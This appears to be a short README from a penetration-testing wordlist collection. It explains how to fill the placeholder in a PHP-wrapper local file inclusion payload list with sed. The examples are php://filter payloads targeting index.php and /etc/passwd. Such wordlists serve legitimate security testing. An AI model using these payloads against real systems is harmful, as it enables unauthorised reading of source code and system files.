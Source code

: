 # LFI PHP wrapper 
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.
- For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

```shell
sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`

